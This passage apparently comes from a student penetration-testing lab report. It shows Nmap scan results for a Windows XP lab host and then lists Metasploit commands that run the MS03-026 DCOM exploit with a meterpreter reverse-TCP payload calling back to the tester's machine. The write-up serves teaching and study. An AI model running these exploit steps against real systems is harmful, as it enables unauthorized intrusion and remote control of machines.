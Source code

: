 \begin{lstlisting}[language=sh,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily, breaklines=true, breakautoindent=true, breakindent=4em]
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=130 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: 
|   NetBIOS name: CL1, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:bc:e8:06 (VMware)
|   Names
|     CL1<00>              Flags: <unique><active>
|     POETSCAFE<00>        Flags: <group><active>
|     CL1<03>              Flags: <unique><active>
|     CL1<20>              Flags: <unique><active>
|_    POETSCAFE<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: CL1
|   NetBIOS computer name: CL1
|   Domain name: poetscafe.local
|   Forest name: poetscafe.local
|   FQDN: CL1.poetscafe.local
|   NetBIOS domain name: POETSCAFE
|_  System time: 2014-03-04T22:09:28+01:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE (using port 554/tcp)
HOP RTT     ADDRESS
1   9.80 ms 10.11.12.1
2   7.44 ms 192.168.233.106

NSE: Script Post-scanning.
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.00 seconds
           Raw packets sent: 1118 (52.738KB) | Rcvd: 1110 (46.626KB)
\end{lstlisting}
We found that the server use Microsoft Windows RPC service on port 135 and considered using this service as a breakthrough.TODOTODO: theoetical
\begin{itemize}
	\item sudo msfconsole
	\item \lstinline{use exploit/windows/dcerpc/ms03_026_dcom}
	\item set RHOST 192.168.233.106
	\item \lstinline{set payload windows/meterpreter/reverse_tcp}
	\item set LHOST 10.11.12.29
	\item run
\end{itemize}
After we ran the exploit, it started sending exploit and showed the information below:
